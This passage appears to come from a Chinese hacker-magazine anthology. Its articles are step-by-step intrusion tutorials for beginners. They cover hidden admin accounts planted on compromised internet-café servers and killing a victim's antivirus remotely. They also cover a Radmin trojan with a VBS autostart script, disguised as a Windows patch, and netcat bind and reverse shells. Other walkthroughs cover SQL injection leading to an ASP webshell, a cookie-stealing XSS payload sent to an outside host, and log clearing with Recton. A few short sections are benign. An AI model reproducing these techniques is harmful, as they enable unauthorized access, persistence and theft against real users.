- 3. 接下来在注册表中展开HKEY_LOCAL_MACHINE\SAM\SAM\Domains\account\user\names\，将“cnsar$”导出注册表，命名为cnsar.reg。打开“cnsar$”项，记下其类型项下的值，我这里显示的是0x406，在“user”下找到与其对应的分支，我这里对应的就是00000406，将其导出为406.reg。接着还要将HKEY_LOCAL_MACHINE\SAM\SAM\Domains\account\user\下的“000001f4”导出为1f4.reg。用记事本打开，将超级用户对应的项000001f4下的键“F”的值复制，并覆盖406.reg下对应的键“F”的值。然后再将00000406.reg与cnsar.reg合并。在将cnsar.reg导入注册表前必须先要在命令行下删除我们前面添加的用户，所以我在命令行下执行net user cnsar$ /del，然后将cnsar.reg导入注册表。

- 4. 最后一步是在注册表编辑器内把HKEY_LOCAL_MACHINE\SAM\SAM权限改回和原来一样。

这样，这个超级隐藏的超级用户就建好了。这个用户不单在命令行下看不见，在帐户管理器中同样看不见。但要注意的是不能更改密码，如果更改密码，帐户管理器里又可以看到这个用户了。

按照同样的方法，我把挑选出来的精品肉鸡每个都建立了一个隐藏的超级用户。上面我所找的肉鸡只是已经开启了终端服务的，想想还有多少没开终端服务的（据说我这个地区登记在册的网吧有530多家）。如果我还要，只需用工具开他们的终端服务便可以了。不过这么多肉鸡已经足够了，多了反而麻烦。

## 后记

本来我们这个地区的网吧服务器是很难入侵的，因为这些设置是由专门的网络安全公司来完成的。而那个网吧管理员万万没有想到，就因为他加的这个弱智用户名，导致了整个地区的绝大多数网吧服务器都可被我很容易的进入。但与此同时，我们也可看出这些网吧的安全意识是多么的薄弱，很多人甚至随意打开终端服务却连默认密码也不改。

不知大家看过《X档案》2003年2期没有，PY在“不要忽视Win2k带给我们的黑客工具”中提到过几个小工具——tlist、kill、pviewer（即Process Viewer）等。其中，tlist是列举进程的工具；kill是杀进程的；pviewer也是杀进程的工具。

tlist与kill在本机的用法就不用多说了！先来看看用tlist列举进程（图1），再用kill -f pid命令强制杀死进程。


如果用于远程主机，那要把这两个工具上传到肉鸡上。


这对于一个老鸟来说很简单，对于菜鸟来说就比较麻烦，需在命令行下进行。先上传工具，然后在对方机器上进行操作，再列举进程，如有防火墙或其他阻止我们入侵的软件，就想决kill死它。有了tlist和kill，对我们菜鸟来说，省了不少弯路。

也许有的菜鸟会说，我不喜欢命令行下的工具，有没有GUI的界面工具，当然有，那就是pviewer（即Process Viewer）。这可是微软为我们提供的，但PY提到此工具只能杀灭本地进程，能列举出远程主机进程，却无法杀之。我在无意中联想到了另一个工具，于是试了试，果然管用，使那个“kill process”（杀进程）的灰色暗钮


# 傻瓜黑客

变为了可用状态。下面就把此共享出来，以使菜鸟们在入侵路上能够省下不少麻烦。

其实很简单，不少朋友一定听过Window按钮突破专家这个工具吧！我就是用它轻松将灰色按钮“kill process”变亮的。下面就是我做的测试。

先在本机试试，图3中pviewer列举的是我的本机进程，其中“kill process”按钮是可用的，我们可以轻松杀死进程。


如果是远程主机的话，你首先得有肉鸡的管理员权限密码，或通过任何方法获得system权限。

先建立IPC连接（图4），在pviewer工具里输入肉鸡IP，出现对方进程，此时“kill process”按钮是灰色的（图5）。都看到了吧！图5显示我们不能杀死对方的进程。


现在运行我们今天的主角吧！它只有4.5KB，很小巧，双击打开Windows按钮突破专家，在“开始运行按钮突破专家前”的白色方框中打上勾就可以了（图6）。


看到了吧，现在我可轻松杀死对方进程了。图6还可看出对方开有瑞星防火墙，现在来杀死它吧！如图7。


菜鸟们觉得这个工具怎样？现在我们就不用在命令行下杀死进程了，只要这个工具就OK了。

文章中所涉及的工具Process Viewer、Windows按钮突破专家已收录于网站论坛光盘栏目中。

2004年第7期的《黑客X档案》里有篇关于把Radmin当成服务来启动的文章（具体文章名是“使用STRCM自动实现Remote Administrator服务端的远程安装、远程启动”）。我觉得写得非常好，不过前提是对方开了IPC共享！那对方如果没有开共享或有相当长的密码该怎么办呢？不会放弃吧？如果你遇到这种情况，那本文就非看不可了。好，废话少说，开工吧！

首先，用鼠标点击“开始→运行”，在弹出窗口中输入“regedit”进入注册表编辑器。依次展开“HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows”，然后在“Windows”下新建一个字符串，名字改为“load”。然后双击这个字符串值，在弹出的对话框里输入“C:\WINNT\system32\yunxing.vbs”（为自启动做准备），然后导出该值，如图1（导出名为：daochu.reg）。

接着就是安装Radmin客户端了，安装过程大家都会吧（Radmin2.1版和3.0版网上都有下载，大家可在Google里搜索）。安装后选择“开始→程序→Remote Administrator v2.1→Settings for Remote Administrator Server”会弹出图2所示的对话框。我们要给它改端口、隐藏托盘、设密码。


# Radmin之自动启动

风

黑客X档案 2005-2004年合订本（下册）

# 傻瓜黑客

1. 设密码
单击“Set password”，然后输入不少于八位的密码，再点“OK”按钮。

2. 改端口、隐托盘
点“Options”按钮，在弹出对话框中设置，具体设置如图3（我把端口改成了爱情后门的端口，中招者还以为中了爱情后门，忙呼了半天下了个专杀工具，结果没用，把我笑死了）。


接着在注册表里导出我们刚刚的设置“HKEY_LOCAL_MACHINE\System\Radmin”，如图4（导出名为：shezhi.reg）。

下面就是编写脚本文件了，打开记事本输入以下内容：

```
set ws=wscript.createobject("wscript.shell")
ws.run "regedit.exe /s shezhi.reg",0
ws.run "regedit.exe /s daochu.reg",0
ws.run "r_server.exe /install /silence",0
ws.run "r_server.exe /start",0
```

另存为yunxing.vbs。

该压缩合并文件了！在Radmin目录下找到r_server.exe，AdmDll.dll，raddrv.dll和刚刚导出的那两个注册表文件shezhi.reg和daochu.reg，最后还有个yunxing.vbs，如图5。然后复制到同一目录下，用鼠标选中这六个文件，单击鼠标右键，选择“添加到压缩文件”（前提是你安装了WinRAR）。


在弹出的对话框按图6设置。然后选择“高级”，再单击“自解压选项（X）”，在弹出对话框按图7设置！


选择“模式”，在弹出对话框中按图8设置。最后你可以在“文本和图标”那里选择好看的图标。


木马已经做好了，接下来你只需找个好点的理由（如：这是Windows刚出来的补丁），通过QQ或其他方式发送给别人（你要知道对方的IP）。等到对方运行后，不论风吹雨打（重启或注销），Radmin服务端都永远存在！

顺便说一下，利用load来自启动程序很容易被发现，现在大多数人都以为只有Run才能自启动，所以这样种木马也比较好（做好的文章和Radmin请到论坛下载）！

相信大家对NC都不陌生吧，如果你连它都不知道，那真应该好好补补课了！在2003年第5期的《X档案》上PY专门对NC做了介绍，不了解的朋友可参考一下（该文也收录在了《黑客X档案2003-2004年合订本》中卷里）。

NC即NetCat，其功能非常强大，官方下载站点是：http://www.atstake.com/research/tools。

## NC的基本命令格式

```
nc [options] host ports
```

其中，“host”是要扫描的主机名或IP地址；“ports”要么是一个单独的端口，要么是一个范围（用n-m形式指定），要么是一系列用空格隔开的单个端口。

关于NC的具体参数及其用法这里就不多说了，今天向大家介绍两种NC的高级用法。在介绍之前先给大家讲讲今天要用到的NC参数。

- `-d` 只对Windows有用，表示NC以隐藏（stealth）模式工作，不被系统管理员发现。

# NC应用高级技巧

公子许 @@ [2195]

- `-e<command>` 在系统中建立后门的快捷方式，当某人在NC监听端口建立连接时，NC执行<command>。
- `-l` 切换NC的“监听”模式。该选项必须与“-p”选项一起使用，以告诉NC绑定某个指定的TCP端口，并等待到来的连接。如果增加“-u”选项，则应使用UDP端口而非TCP端口。
- `-L` 只对Windows有用。比“-l”选项功能更强大的“监听”选项，它告诉NetCat，当一个连接被关闭后，使用相同的命令行选项重启监听模式。必须同“-p”一起使用。
- `-p<port>` 是用户指定一个NC应使用的本地端口号。当通过“-l”或“-L”来使用监听模式时，这是必需的。如果没有为外出连接指定这个参数，则与大多数其他TCP/UDP客户程序的做法一样，NC将使用系统分配给它的任何端口。
- `-o<hexfile>` 对数据执行一次十六进制的转储（hex dump），并将其存储在hexfile中。命令“nc -o hexfile”将把双向通信的数据记录下来，在每行的开始处会有一个“<”或“>”用来分别指示数据是进入数据还是外出数据。如果你只想得到对进入数据的十六进制转储，可使用“nc -o<hexfile”命令；如果只想得到对外出数据的十六进制转储，则可使用“nc -o>hexfile”命令。

黑客X档案2003 2004年合订本（下卷）

# 傻瓜黑客

## 获取被控制权的远程访问

在一台Windows NT或Windows 2000系列的肉鸡命令提示符下运行nc.exe -l -p 8899 -e cmd.exe，那么任何远程登陆到端口8899的telnet（甚至不需要登录）就可看到一个可爱的CMDSHell，并且你的权限和登陆用户一样。在Windows 95或Windows 98中，要用command.exe而不是cmd.exe建立后门控制系统。这样就完成了一个简单的后门了，不过它的隐蔽性和连续性不是很完善，因为在默认情况下，NC将在启动它的CMD窗口中运行，这就意味着你必须在肉鸡上开一个CMD窗口来运行NC。这样怎能不叫管理员怀疑呢？并且当你成功建立连接后，当终止连接时，NC在默认情况下会认为自己的工作已经完成并停止监听，也就是说NC程序将会自动关闭，后门也会关闭。所以下面我们就来运用几个简单的参数来完善其隐蔽性和连续性。


通过上面的改进，就可以让黑客利器NC重新返回系统，直到系统管理员在任务管理器（Task Manager）中看看nc.exe正在运行，从而发现这个后门为止。为了提高隐蔽性，还可为nc.exe改个名字，隐藏在系统目录中。如：可把它改名为update.exe，然后再把它放在C:\WinNT\System32\Drivers\里。这样就可以欺骗一下系统管理员。

后门就制作好了，在使用时只需使用命令telnet 肉鸡IP 8899就可连接肉鸡，并获得一个CMDSHell。


不过，现在如果系统管理员在CMD提示符下运行netstat -an命令，就会注意到在某些不常用的端口上运行了某些程序，远程登录到这些端口就可发现问题。然而，Windows系统自身也会因为需要而使用几个随机端口，所以分析netstat的输出将是一件很耗时的工作，特别是当系统上存在大量的活动时。这就要看系统管理员的耐心和技术了。

## 三、实现反向shell

我们知道反向连接可以穿透部分防火墙，在入侵过程中是经常遇到的。下面就说说如何用NC来构建一个简单的反向Shell。

首先，监听本地80端口。可使用NC来监听本机80端口，先在本机上打开一个CMD窗口，再使用命令nc -l -p 80。

然后把nc.exe上传到肉鸡上。至于怎么上传，这里就不给大家具体说了，可参考前几期的《黑客X档案》（2004年8期就有一篇“文件上传终极方案”，大家可参考一下）。

接着在肉鸡上运行nc.exe -d -e cmd.exe 0>2>我们的IP 80，这样在我们本机的CMD窗口就会看见一个可爱的反向Shell了。

下面几种方法可使系统管理员发现NC的入侵：
1. 使用Windows的文件查找工具来搜索包含诸如“listen mode”或“inbound connects”字符串的文件，找到的任何可执行文件都有可能是NC。
2. 检查任务管理器，以查找任何有欺骗性的cmd.exe文件。如果cmd.exe莫名其妙地运行起来，就说明发生了黑客攻击，在对方使用远程Shell时就有可能把他抓住，除非黑客也把cmd.exe文件重命名了，或做了精心修改。
3. 使用netstat命令或端口监视工具来观察当前正在使用的端口，以及使用这些端口的应用程序。使用netstat时一定要小心，因为它很容易被替换成“木马”或“后门”之类的程序，该程序被黑客精心加工过。同样，某些时候netstat并不报告正在运行监听的TCP套接字，除非某些程序已经连接到这些套接字。（本期光盘收录有NC）


## Windows XP文件保护入侵后的破解方法

自从去年8月到现在，冲击波和震荡波已让很多人的爱机无数次重启，中止运行处于关键阶段的程序，从而丢失大量重要的数据，真让人痛恨不已！第一次看到那个强行关机的对话框时，关也关不掉，用任务管理器也不好使，我一下子就傻了！很无奈的看着时间一秒秒的过去，直至关机。

原来系统受到冲击波或震荡波攻击后，会造成系统中的关键服务关闭，例如：RPC、exe、lsass.exe。这些关键服务是系统正常运行所必须的，有许多系统服务都是依赖这些关键服务运行的（图1）。

如果这些关键服务意外中止，其他依赖此关机服务的服务也会中止。这样，系统就不再“健康”工作了，同时也会出现


图1

黑客X档案2003 2004年合订本（下册）

# 傻瓜黑客

种种不正常现象，如“任务栏”消失了，“开始”菜单中的“关闭计算机”也消失了。而即使是手动启动这些已中止的关键服务，也没什么用，因为那些依赖它的系统服务是不会自动的，除非你一个个的重启一遍。而这些系统服务对一个正常的系统来说是必须的。所以，为了让系统恢复到原来的“健康”状态，系统就会要求强制重启（图2），启动那些最底层的服务和依赖它们的其他系统服务。


明白了上述道理后，再出现那个强行关机的对话框时就不要那么紧张了。其实，冲击波病毒只能成功的攻击Windows2000系统，对XP最多造成RPC服务中止。不过，最近的震荡波倒是由会造成lsass.exe中止，所以，一般来说，XP系统是不容易被冲击波攻破的，最多出现那个看似吓人的强行关机对话框，而这个对话框的出现正是系统自身保护机制的正常反应。因此，假如你看到这个强制关机的对话框，也不要随便大喊中“冲击波”了。

上面罗嗦了那么多，究竟怎么解决呢？在弹出强行关机的对话框时，快速打开“开始”菜单中的“运行”，在弹出窗口中输入shutdown.exe -a，或者在命令行提示符里输入shutdown -a后回车。这个命令就是专门取消强制关机的，这时你可以看到强行关机的对话框消失了。

明白上面的道理后，其他类似的强制关机也是如此处理。需要说明的是，如果Win2000中没有shutdown.exe文件，就把XP系统目录中的shutdown.exe拷贝到Win2000的系统目录中。

上面我们只是解决了一时之急，谁也不想总看到那个强行关机对话框吧？要想从根本上解决问题，就只好给系统打补丁。当然，在打补丁之前杀毒也是有必要的。具体给大家介绍一下“震荡波”病毒吧！瑞星反病毒专家王耀华介绍说：“震荡波”病毒会通过TCP的5554端口攻击电脑的445端口，使系统文件崩溃，造成电脑反复重启。如果攻击成功，会在C:\Windows目录下产生名为avserve.exe的病毒体，所以可通过查找该病毒文件来判断是否中毒。电脑中毒后，会打开TCP的5554端口，作为FTP服务器上传病毒文件，并在注册表的HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run中建立"avserve.exe"=%windows%\avserve.exe的病毒键值进行自启动。该病毒会使“安全认证子系统”进程——LSASS.exe崩溃，出现系统反复重启的现象，并使跟安全认证有关的程序出现严重运行错误。

既然用到了shutdown命令，不妨就多说一点shutdown.exe，它可是“黑迷”朋友们很喜爱的一个工具呀，而且是系统自带的。具体参数和作用如下：

- `shutdown.exe -a` 取消关机
- `shutdown.exe -f` 强行关闭应用程序并且注销，小心呀！
- `shutdown.exe -m \\计算机名` 控制远程计算机，可以配合“-r”或“-a”参数控制远程主机
- `shutdown.exe -i` 显示图形用户界面，但必须是shutdown的第一个参数
- `shutdown.exe -l` 注销当前用户
- `shutdown.exe -r` 关机并重启
- `shutdown.exe -t 时间` 设置关机倒计时
- `shutdown.exe -c "消息内容"` 输入关机对话框中的消息内容（不能超过127个字符）。当然也可在命令提示符下键入`shutdown /?`来查看此命令更具体的使用说明

如果想取消的话，可以打开“开始”菜单的“运行”，在弹出窗口中输入shutdown -a。另外，输入shutdown -i则可打开设置自动关机对话框，对自动关机进行设置。

当然，在用shutdown命令控制远程主机时，你必须有足够的权限，前提是建立ipc$连接，并且需要管理员权限。一般地，XP是不容易让你连上的，因为XP默认情况下不允许建立管理员权限的ipc$连接，除非对方取消“简单文件共享”模式。

这里顺便说一下怎样取消“简单文件共享”。选择资源管理器中的“工具”→“文件夹选项”，在弹出窗口中点击“查看”选项卡，找到“使用简单文件共享”一项后，取消前面的勾即可（图3）。


下面我们来试试看！

假设现在得到了对方的IP：10.16.69.166，以及管理员administrator的密码123。那么，首先建立ipc$连接：
`net use \\10.16.69.166\ipc$ "123" /user:administrator`
然后就可以用shutdown命令让对方关机或者重启。执行命令：
`shutdown -m \\10.16.69.166 -r`
这样，对方的机器就会出现强行关机对话框，但此时即使他用`shutdown -a`命令也是无用的，因为那个强行关机的命令不是他机器本身发起的。那就不能取消了吗？当然不是，你想给他取消的话，就要赶在对方机器“发作”之前输入`shutdown -m \\10.16.69.166 -a`。当然，也可以加上时间参数“-t”来控制关机或者重启的时间，可设成0秒的哦！赶紧试试吧！


# 注入利器WED与WIS

## 兵器介绍

小榕实验室新出炉了一个注入组合——WED和WIS，WED（Web Entry Detector）用来破解存在SQL Injection网站的管理员帐号和密码。WIS（Web Injection Scanner）自动对整个网站进行SQL Injection脆弱性扫描，并且能够扫描后台登陆界面。
众所周知，小榕实验室的东西一向以“功能强大的软件，傻瓜化的使用”而出名。这两款同样很容易上手，能够让菜鸟们毫不费力的得到最想要的东西。实乃“网络旅行，入侵攻击之绝好兵器”。

## 自战说明

为了方便说明，我们在“控制面板”中打开“管理工具”，然后单机“Internet 服务管理器”，以启用虚拟机的IIS服务（图1），服务器的IP为192.168.0.2，文件夹名为“dg”的是一个存在注入漏洞的网站程序。


站点目录“dg”下还有一个动网论坛，模仿的是某个站点。我最后会根据站点的特性拿到Webshell。

> 💡 小提示：对初学者来说，也许不好找练习的机器，如果装了虚拟机，不但可以根据需要进行配置，增加自己对服务器的理解，还可随时观察被攻击机器的反映；不必担心对方桌面上已经出现的警告。相当于先造好一个沙袋人，贴上坏人头像随你怎么打。

站点访问的地址为http://192.168.0.2/dg/index.asp（图2），论坛访问地址为http://192.168.0.2/dg/bbs/index.asp（数据库是我随便拿了一个站点的战果，笔者的硬盘大，所以喜欢收藏战果以备下次使用）。

然后找到了一个可以注入的站点程序放在虚拟上。


在江湖行走，要小心翼翼，对于那些已经败在你手下的人，要留心记录他的弱点，万一哪天他带兄弟们踢你的场子，可以直接击他的要害。

## 秘笈回放

WIS和WED都是在MSDOS下使用的程序。先用WIS扫描注入点，看看有没有注入漏洞，扫完注入点后，再用它扫网站的后台，最后得到有用信息，用WED注入破解管理员密码。
我们也可以根据实际情况，直接使用WIS扫描后台。从小榕实验室下载这两个文件解压后，WIS除了自己的程序外，还有一个文件admin.txt，里面是个字典形式的网站后台相对地址。很明显，它是在扫描时自动加入后缀.asp的，如果你想自己加入内容，比如login.asp文件（这个文件也很重要，却没有被写进去），就直接在里面另起一行，输入login即可，它会自动加入后缀。可别见到MM心情一激动，把不该做的也做了！
WED解压后有四个文件。除了自身的程序外，还有TableName.txt（管理员表名）、UserNameField.txt（用户名的列名）、PassField.txt（用户密码的列名）。

> 💡 小提示：也许你要注入的表名或列名没有在里面，可以去互联网搜索站点使用程序的名字，然后下载这个程序，打开数据库查看。比如一些同学录的列名里面就没有。根据需要和经验，壮大你的字典。

运行WIS，在示例用法中也写得很明白，如我的虚拟机站点，要输入wis http://192.168.0.2/dg/。这种用法就是自动在网站目录下寻找存在注入漏洞的页面（图3）。


> 💡 注意：网站后面一定要有“/”符号！如果你输入wis http://192.168.0.2/dg，这样少了“/”符号，就不会正确运行程序了。

回车后，开始运行程序，结果如图4。“/dg/index.asp?classid=1”就是运行结果。

# 傻瓜黑客


图 4

合起来，存在注入漏洞的页面就是：http://192.168.0.2/dg/index.asp?classid=1，得到了漏洞页面，就可以破解管理员密码，但是不知道管理员管理页面，一样没用。所以还要扫描管理后台，用法如下：

```
`wis http://192.168.0.2/dg/ /a`
```

即先输入上一个命令，继续加上“/a”，如图5。


图 5

运行成功！找到了后台地址：http://192.168.0.2/dg/admin/admin.asp，服务器返回信息“<200 OK>”，说明存在这个页面，如图6。


图 6

使用 WED 注入这个页面，破解管理员密码，用法（图7）：

```
`wed http://192.168.0.2/dg/index.asp?classid=1`
```

运行结果写得很明显，管理员帐号是“admin”，密码也是“admin”（图8）。

> > **小提示：** 有时候运行会出现错误，可能是你的网速反映问题，试着再运行一次。一定要等到 `username is: ***` `password is: ***` 的消息出现，这才是运行结果。中间会停顿一会儿，是在猜测，可不要在这时就按 Ctrl+C。

得到了密码，登陆后台（图9）。


图 7


图 8


图 9

从后台界面看得出，有两点可以利用。一个是上传文件，另一个是备份数据，但经我测试，这个上传文件不可用，总是运行错误，所以我转到了动网的那个上传头里。首先把你做好 ASP 木马后缀名改为.gif，然后上传，得到地址 “uploadface/20049823261680401.gif” （图10）。


由于我们没有得到论坛的后台权限，不能使用动网论坛的“备份木马”功能，但刚才的网站后台刚好有个“备份数据库”（图11），上传的图片相对网站后台的地址是“../bbs/uploadface/20049823261680401.gif”，备份目录你可以随意选择。


如果目录不存在，会自动创建，我输入的结杲访问地址是：http://192.168.0.2/dg/kxlzx/kxlzx.asp（图12）。

我们这样就得到了Webshell，攻击完成！


这两个小工具给我的感觉是小巧、易用，运行速度很快。缺点是每次要在MSDOS下运行，不是很方便，菜鸟们都喜欢图形界面的工具。如果改为图形界面，点几下鼠标就可完成操作，效果一定更佳！

这两个工具只能用于ASP站点的注入，不能注入和扫描PHP站点，因为PHP+Mysql与ASP的注入语句构造都不一样。关于PHP的，大家可参考http://www.4ngel.net的文章。国内站点大多都以ASP为主，能够通过注入得到权限的站点不在少数。请大家不要一味的搞破坏，如果你得到了权限，完全可通知管理员，也算是为国内的站点安全做出贡献。

（本文提及的WED和WIS光盘中有收录）


# Injection训练营

## 破碎的夜——脚本攻击演练软件 Hacme Bank

脚本攻击技术可以说是当前网络的主流攻击手段（地球人都知道！），当然，我们这些菜鸟也不甘落后了。当看到和我一样的初学朋友反复调 SQL 语句边想下一步该怎么注入时，我就想可不可以在先在家练好了再出来干活呢？那样也能有利索点呀！终于我找到了 Hacme Bank。它是著名安全公司 foundstone 出品的一款给相关人员来练习各种脚本攻击技术的环境。其 asp.net+MS SQL 的测试环境中涉及到了诸如 SQL 语句的注入、cookie 欺骗、跨站脚本攻击等多种脚本攻击技术。听起来挺神奇的，那它究竟是个怎么样的软件呢？下面跟我一起来揭开 Hacme Bank 的面纱吧！

注意的地方提一下。
如果你自己不想装 MS SQL2000 的话，可以直接用网络上现有的，大家参考图 2，直接填入相应的 IP 地址和访问帐号、口令就可以了。


## 一、安装要求

因为 Hacme Bank 是在基于 ASP.NET 的 Web 应用上进行测试演练的，所以它需要 .NET 等相关的支持。具体如图 1：

| 软件名称 | 下载地址 |
| --- | --- |
| Microsoft .NET Framework v1.1 | http://msdn.microsoft.com/netframework/downloads/ |
| Microsoft IIS | IIS 组件 |
| MSDE 2000 Release A / MS SQL 2000 | http://www.microsoft.com/sql/msde/downloads/ |

## 二、安装过程

其实 Hacme Bank 等的安装过程都比较简单，在这里我只把要

# 傻瓜黑客

安装完毕后，大家可用浏览器来访问本地站点，以确认自己是否已经安装成功！如图3。
一切准备就绪后，下面就可开始我们的Hacme之旅了。

## 三、web攻击演练

大家看到图3了吧，从页面上好像也找不到帐号和密码的相关信息。不过大家也许或多或少听过登陆验证漏洞，看来我们的演习就从这里开始了！关于网页登陆方面的人侵手法，大家想一下都是些什么呢？我们都是怎么对付它的呢？' or 1=1--、" or 1=1--、or 1=1--、'or 'a'='a'、" or "a"="a、') or ('a'='a'等等。不过当你试过之后会发现用 ' or 1=1-- 也可以跳过验证的，如图4。
是不是很轻松就进来了呀！不过进来后看了看，好像没有我们熟悉的上传文件之类的。怎么办？大致把这几个选项浏览了一下，发现有个留言板好像有点用。留言板可以干嘛？这里估计是练习我们的跨站脚本攻击技术(xss)了。


我们来留个言：<script>alert('hackerxfiles');</script>，提交后再浏览自己的留言，看是什么效果。如图5。


呵呵！弹出了个对话框。看来现在可以用跨站脚本漏洞来劫持别人的cookie之类的。具体大家可这样来偷别人的cookie：<SCRIPT>location.href= "http://192.168.1.20/cookie.asp"+ escape(document.cookie);</SCRIPT>，然后在192.168.1.20的Web空间放一个接收参数cookie的页面cookie.asp。这样，当别人浏览我们的留言时，会把他的cookie发到指定的网页中去。

说到这里，我们如果想进一步，该往哪里走呢？浏览器的URL中也没有我们熟悉的**.asp?id=11和**.asp?type=num的参数，也就不可以进行常用的数字和字符注入了。不过，我们进来的地方可以，既然那里可以进行脚本注入，我们就好好利用一下吧！
如果你只想获得系统的权限，可以这样来测试，在username中输入：' and 0<>(select user)-- 判断当前连接数据库用户，如图6。


现在知道上面的情况后，我们就可以用;exec master.dbo.xp_cmdshell 'dir c:--'来查看浏览C盘的内容，同时确定xp_cmdshell存储过程是否存在，如图7。


当然，大家还可在这里直接利用存储过程来获得系统权限。
如果你对数据库中的数据更感兴趣。那你可能会这样，在username中输入：having 1=1--，如图8。
是不是看到“FSB.USER.user_id”了？对！FSB_USER就是存放我们帐号信息的表，同时大家也还知道了表中有user_id这个字段。下面我们来判断字段的类型：' union select sum(user_name) from FSB_USERS having 1=1--，如图9。


是不是把user_name这个字段的类型也暴露出来了？之后把整个表的结构了解清楚后，如果你有兴趣也可给数据库添加、修改数据。
大家可能注意到了，每当我们测试几次后，就发现有图10所示的错误信息。
应该是对我们的错误次数进行了限制。好，下面我们就来解决这个问题。这里要用到一个基于java的小软件——paros。它也是foundstone出品的！我们主要用它来修改提交的cookie等信息。
要对我们网页传输的数据进行控制，这里先得配置一下，如图11所示。
图11的左边是对我们的IE浏览器进行代理设置，IP就是本地localhost，端口大家可根据实际情况进行修改。不过paros中“Option选项”里配置的端口要和我们浏览器代理设置中的一致。


# 傻瓜黑客


选中paros的“Trap”选项，并把下面的两个复选框也选上。也就是对“Response”、“Request”的数据都进行监控。下面我们再在登陆的地方进行提交后注意观察，发现浏览器会停止。对啊！我们现在提交的网页浏览请求都是经过paros的。需要点击paros中的“Continue”按钮。如图12。

这样，我们就可更好的控制提交给网页的数据了。注意，每次提交后发现paros中cookie部分的[ CookieLoginAttempts=x ]这个变量在递增。OK！我们就在提交前把header中的“attempt”数据值进行一下修改，这样就不会提示什么错误了！同时，如果你对session多看看，发现它也是可以欺骗的。


看到了吧，如果一个新手来学习SQL Injection的话，Hacme Bank是完全可以胜任的。其实在SQL Injection部分，大家还可自己构造特殊的SQL语句来获取更多、更有用的信息。还有就是结合paros运用部分，这里面有好多更好玩的东西呢！还需要大家慢慢摸索，相信过不了多久你将是一个脚本检测高手。

（本文提到的Hacme Bank、paros 光盘有收录）


wzhpro

我到大学后第一次进入学校机房，发现机器都很破旧，但马马虎虎还能用。打开浏览器试试能不能上网，结果还算满意，输入网址后网站立即跳了出来。

我决定再试一下能不能上QQ。从网上下载一个QQ，安装好后填上号码和密码并登录。可等了半天就是没登录上去，最后以连接服务器超时而告终，于是我下决心要让我的QQ登录上去。我按照往常的方法找了几个国外的代理服务器，在QQ里设置好后又登录，可还是不行，郁闷ING……

为什么浏览器能上而QQ不能上呢？我在IE里选择“Internet选项→连接→局域网设置”，会弹出图1所示的窗口。

这时我恍然大悟，原来浏览器是通过内网中的一台代理服务器上的网，那么QQ能不能通过这个服务器上线呢？我带着疑问在QQ“网络设置”里的代理类型选择了“HTTP代理”，地址和端口都按照浏览器的设置填上了，如图2。

点击“登录”后，QQ立马能用了，开心ING……最后我被老师训了几句，唉！谁让我这么贪玩啊！

后来经过我测试，发现只要在类型中选择了使用浏览器设置，也能登录上去，早知道就不用这么麻烦了。

本文写得比较简单，旨在让大家发现问题后能找到问题的根源，从而快速解决问题。


图 2

图 1

图 11

图 12

黑客X档案 2005 - 2004年合订本(下册)

103

# 傻瓜黑客

# RECTON
## ——菜鸟的超级武器

吴智慧

我在网上闲逛时发现了一款特别适合菜鸟朋友使用的超级武器——Recton，下面就给大家介绍一下。
Recton是通过访问WMI服务来管理远程主机，不依赖IPC$是否开放，只要拥有管理员用户和密码，并且远程主机的135端口和WMI服务（默认启动）开启，就可以远程开启3389、开/关Telnet服务、查看共享、删除所有日志、重启等。它必须在Win2000/XP/2003上运行。用WinRAR压缩后Recton只有32.9KB，可以方便的放在邮箱里。
此次我在网吧给大家演示一下这款软件的使用。在“远程”菜单中有远程开启3389、开/关Telnet服务、远程运行CMD命令、远程清除所有日志、远程重启5个功能，我先给大家介绍远程开3389这个功能。
在“远程主机”后填入对方的IP地址，“用户名”和“密码”后面都按实际情况填写。如果你想更改端口，只要在“更改端口”前把勾打上，然后在“CMD”后填入你想要的端口号。如果你不怕对方发现的话，还可以勾上“自动重启”。这样，你点击“开始执行”后，对方会自动重启并开启终端服务，如图1。
下面再介绍“开Telnet”的过程。IP、用户名、密码、端口的填写方法和开3389时的方法相同，但这里会多出来一个NTLM值。NTLM即身份验证选项，它3个值的功能分别是：

- 0：不使用NTLM身份验证。这样用户可以直接用主机的NT口令登陆，免去了NTLM验证的麻烦，对连接到或其他操作系统连接很有用。
- 1：先尝试NTLM身份验证。如果失败，再使用用户名和密码。
- 2：只使用NTLM身份验证。如果要在运行Windows NT或Windows 2000的计算机之间建立连接，非常有用。

一般我们使用0，因为这样，我们只要拥有用户名和密码就能登录服务器。我们把“更改NTLM”前的勾打上，再在上边填入0。点击“开始执行”后主机的Telnet服务就开启了，不需要重启哦！图2和图3是我开启对方Telnet后连接的效果图。


图2


图3

远程运行CMD功能也非常实用。例如我们可以添加用户，并把添加的用户加入管理员组。例如我在一次入侵后发现自己新建的帐号被管理员禁用了，于是在“CMD”后输入net user wzhpro$ /active:yes，如图4。


图4

点击“开始执行”后不出意外的话，就会出现图5所示的对话框，表示命令成功执行了。


图5

Recton还有其他功能：远程清除所有日志、远程重启、查杀进程、查看服务、查看共享的设置，都比较简单，只需填上IP、用户名、密码就能执行，所以在这里就不详细讲述了。软件做得很傻瓜，大家只要实践一下就应该会用。（本文涉及的工具Recton光盘有收录）

# ADSL
## 是如何被“黑客”控制的

自从今年七月初在网上出现用广东ADSL的帐户充QQ币的动画教程后，盗ADSL帐户就一发不可收拾，泛滥成灾。网上流行盗ADSL密码的方法基本上都是通过扫描路由器，然后通过原始密码进入路由器获得ADSL的帐户和密码。《黑客X档案》也介绍过通过原始路由密码获得帐户密码的方法，当然还有其他方法，因为危害很大，所以我也不再讨论其他获得帐户和密码的方法。对于ADSL密码被盗造成用户的经济损失，电信负有不可推卸的责任，然而电信迟迟都没有做出任何补救措施，仍然仅是每月只能消费50元的限制。究其原因，是由于使用ADSL帐户在网上消费，除了ADSL用户受损之外，电信、服务商和盗号者都有利可图。
下面我们就来看看“黑客”是如何在网上将ADSL帐户每月的定额消费一空，如何将ADSL榨干的！

## Q币、游戏充值

最先刷Q币的网页（http://vnet.qq.com/gd/vnet.jsp）很早就被关闭了，后来陆续有人发现了一些网页，并做了相关教


# 傻瓜黑客

| 支付方式 | 简介 | 购买 |
| --- | --- | --- |
| 固定电话支付 | 广东省电信公司固定电话和小灵通用只需拨打指定电话购买世纪前线的点数卡或包月卡，记录卡号、密码，在世纪前线网站进行“点数卡充值”或“包月卡激活”后，即可使用世纪前线的收费服务。 | 我要购买 |
